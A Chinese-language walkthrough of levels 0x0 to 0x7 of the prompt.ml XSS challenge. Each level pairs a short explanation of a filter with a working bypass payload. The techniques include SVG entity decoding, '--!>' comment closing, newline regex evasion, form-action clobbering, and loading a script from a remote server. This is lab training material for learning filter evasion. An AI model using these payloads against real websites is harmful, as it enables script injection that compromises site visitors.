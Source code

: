 http://prompt.ml/0  
注意在这里使用的过关方法是prompt(1)

# 0x0
直接闭合value：
```
"><script type=text/javascript>prompt(1)</script>
```

# 0x1
服务器端将<>内的内容过滤，通过少输入一个>绕过，不影响运行：
```
<body onload="prompt(1)"
```

# 0x2
服务器端将“=”和“(“过滤，一开始查了一圈也没找到绕过等号的方法，后来借鉴别人的方法，发现“使用SVG标签，会提前将将XML实体解析再加入标签”，所以构造：
```
<svg><script>prompt&#x28;1)</script>
```

# 0x3
服务器端将”->“转换成“_”是为了防止闭合注释，但“\<!--”可以通过“-->”和“--!>”两种方式闭合：
```
--!><script type=text/javascript>prompt(1)</script>
```

# 0x4
匹配前面的URL格式绕过正则，并使用%2f绕过decodeURIComponent函数，最后使用自己的服务器上在js文件中写入prompt(1)：
```
http://prompt.ml%2f@http://xx.xx.xx.xx/1.js
```

# 0x5
“>”和“on=xxx“被正则转义，通过将type覆盖为image，并通过换行绕过正则：
```
" type=image src onerror
="prompt(1)
```

# 0x6
我们需要输入的格式为utl#post的表单内容，比如www.baiducom#{"nothing":"hello"}，具体过程是先提取url构造form表单，url赋值给form标签中的action，然后post内容加成input标签。经常能见到类似action=”javascript:alert(1)”的内容，但是后面还过滤了document.form[0].action内容，过滤了script和data，但是过滤存在缺陷，由于存在子级tag, action 将会优先指向name为action的子tag，如果我们加上一个input标签，返回内容就被覆盖了，所以我们在这里可以构造提交的表单中有action选项：
```
javascript:prompt(1)#{"action":1}
```

# 0x7
关键点在于12个字符的限制，以及#号换行，把#夹在注释中，同时解决换行和字符限制的问题：
```
"><script>/*#*/prompt(/*#*/1/*#*/)</script><"
```
